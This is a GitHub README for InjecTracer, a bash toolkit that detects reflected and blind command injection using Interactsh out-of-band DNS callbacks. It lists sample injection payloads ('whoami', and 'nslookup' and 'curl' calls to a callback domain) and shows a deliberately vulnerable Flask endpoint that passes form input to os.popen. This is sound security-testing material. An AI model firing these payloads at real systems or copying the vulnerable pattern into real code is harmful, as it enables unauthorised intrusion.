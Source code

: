 # 🧪 InjecTracer - Blind & Reflected Command Injection Detection Toolkit

InjecTracer is a bash-powered toolkit for detecting **reflected** and **blind** command injection vulnerabilities in HTTP-based applications using **DNS-based exfiltration via Interactsh**. It supports dynamic payload injection into URLs, headers, JSON, and form bodies.

![banner](./assets/injecTrace.png)

> 💥 Built for researchers and bug bounty hunters who want **automation with precision**.

---

## 🚀 Features

- ✅ Reflected command injection detection (`GET`/`POST`)
- 🔒 Blind command injection detection with **OOB DNS interaction**
- 📦 Supports:
  - URL parameters (`INJECT_HERE`)
  - POST body fields (x-www-form-urlencoded)
  - JSON body fields
  - HTTP headers
- 🛡️ Automatic CSRF token & session handling
- 📊 Output in structured `results.json`
- 🔄 Replaces `{{DOMAIN}}` in payloads with live interactsh OOB domain
- 🧠 Auto-parses Interactsh logs to correlate responses

---

## 📁 Project Structure

```
InjecTracer/
├── blinddns-env/             # (Optional) Python/Go environment
├── interactsh/               # Interactsh source (auto-cloned)
├── InjecTracer.sh            # Main injection logic
├── input.json                # Target config (method, URL, headers, etc.)
├── payloads.txt              # List of command injection payloads
├── results.json              # Final output with detection logs
├── requirement.sh            # Installs and builds Interactsh
└── run.sh                    # Starts a full scan run
```

---

## 🛠️ Setup

### 1. Install Go

```bash
sudo apt install golang -y
```

### 2. Clone and Build Interactsh

```bash
chmod +x requirement.sh
./requirement.sh
```

---

## ⚙️ Usage

### Step 1: Define Target in `input.json`

```json
{
  "method": "POST",
  "url": "http://127.0.0.1:5000/contact",
  "body": {
    "name": "test",
    "email": "INJECT_HERE",
    "message": "1234567890"
  },
  "headers": {
    "Content-Type": "application/x-www-form-urlencoded"
  }
}
```

> 🔍 Supports `inject_into`: `"body"`, `"json"`, `"params"`, `"headers"`  
> 🔑 Supports CSRF token & session cookie auto-handling

---

### Step 2: Add Payloads in `payloads.txt`

```txt
127.0.0.1;whoami
x||nslookup+x.{{DOMAIN}}||
x||curl+http://{{DOMAIN}}||
x||whoami||
```

> `{{DOMAIN}}` will be replaced with Interactsh's dynamic OOB domain

---

### Step 3: Run It

```bash
chmod +x run.sh InjecTracer.sh
./run.sh
```

> Output will be stored in `results.json`

---

## 🔍 Sample `results.json` Output

```json
{
  "payload": "x||whoami||",
  "url": "http://127.0.0.1:5000/contact",
  "location": "body",
  "output": "Thank you, test!\nYour message: 1234567890\nPing result for x||whoami||:\n\n",
  "blind": "true",
  "dns_response": "ApP.Py.D26xyzabc123.oast.site"
}
```

## 🧠 How It Works

1. Starts Interactsh in background
2. Gets dynamic OOB DNS domain
3. Injects payloads into defined points
4. For reflected injection: parses HTML output
5. For blind injection: waits and fetches `full-id` from Interactsh logs
6. Compiles all results into a neat JSON report

---

## 🧪 Test with Sample Flask App

You can test against this vulnerable endpoint:

```python
@app.route('/contact', methods=['POST'])
def contact():
    email = request.form.get('email')
    output = os.popen(f"ping -c 1 {email}").read()
    return f"Ping result for {email}:\n{output}"
```

---

## 📌 Notes

- Requires `jq`, `curl`, `git`, `go`, and Internet access.
- Works with any HTTP target (no browser required).
- You can add `whoami`, `id`, or `nslookup`..,etc payloads.

---

## 👨‍💻 Author

Crafted by [Amal P](https://github.com/amalpvatayam67/)  
For educational and ethical penetration testing purposes only.

---

## 📜 License

MIT License
